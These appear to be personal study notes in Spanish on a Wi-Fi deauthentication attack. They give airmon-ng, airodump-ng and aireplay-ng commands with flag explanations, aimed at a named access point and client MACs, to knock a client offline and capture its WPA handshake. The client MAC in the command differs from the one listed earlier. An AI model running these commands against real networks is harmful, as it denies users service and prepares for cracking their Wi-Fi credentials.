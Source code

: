 Consiste en interceptar una comunicacion del cliente al AP, insertando en la data paquetes de desautenticacion, con el objetivo de denegar el servicio al cliente.

	airmon-ng start wlan1
Iniciamos nuestra tarjeta de red en modo monitor.

	airodump-ng wlan1mon -c 1
Monitoriamos la red en el canal 1

**Datos del AP**
D0:B6:6F:5A:4C:BF  INFINITUM33B5      
**Datos del cliente asociado al AP**
68:D7:9A:56:2B:72

	airodump-ng -c 1 -w CapturasDeAuth --essid INFINITUM33B5 wlan1mon 
Capturamos los paquetes que circulan en la AP

-w *archivo donde se guardaran las capturas de la red.*
-c 1 *especificamos el canal donde se ubica el AP.*
 --essid *nombre de la red victima.*
 wlan1mon *interfaz de red con la cual deseamos escaner el trafico de la red victima.*

Mientras realizamos la captura del trafico vamos a enviar paquetes  DeAuth a un cliente en espesifico para capturar el [[HandShake]].

	aireplay-ng -0 10 -e INFINITUM33B5 -c 74:23:44:A9:C7:67 wlan1mon
Mandamos paquetes DeAuth para expulsar al cliente y que se vuelva a conectar para capturar el HandShake.

-0 *especificamos que se realizara un ataque DeAuth.*
10 *numero de paquetes DeAuth que enviaremos.*
-e *essid de la red.*
-c *direccion mac del cliente que expulsaremos de la red.*
wlan1mon *tarjeta de la red en modo monitor.*

Una vez que el cliente se reconecte abremos capturado el HandShake.